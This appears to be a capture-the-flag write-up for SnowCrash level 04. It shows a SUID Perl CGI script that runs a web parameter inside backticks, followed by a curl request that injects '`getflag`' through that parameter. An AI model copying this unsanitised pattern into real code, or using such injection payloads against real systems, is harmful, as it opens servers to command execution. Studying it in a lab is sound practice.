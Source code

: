 # Level04
This time we are given a Perl script

![image](https://github.com/user-attachments/assets/5a276f3c-077c-4f13-b572-df191e644603)

![image](https://github.com/user-attachments/assets/afec7e89-9de1-4216-9479-25f7c7e55e12)

It has the SUID bit set like the last time. So we will try to exploit the priviliges of flag04 somehow. Let's run it,

![image](https://github.com/user-attachments/assets/085d513d-7dc6-4b2c-89ef-8574d0d3f4c1)

What is it trying to achieve exactly? Let's read the file contents:

![image](https://github.com/user-attachments/assets/c888db70-7096-4545-a2ad-dbf77416d8d4)

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
After a crash course in perl [subroutines](https://www.tutorialspoint.com/perl/perl_subroutines.htm) and the [CGI](https://www.perl.com/article/perl-and-cgi/) module we see that we are provided a neatly vulnerable code.

```
level04@SnowCrash:~$ curl 'http://localhost:4747/level04.pl?x=`getflag`'
```
![image](https://github.com/user-attachments/assets/390db6a7-889b-4a9b-99f1-7a325288c15b)

![image](https://github.com/user-attachments/assets/f252564f-cfb3-4278-976d-06e83465f6b9)


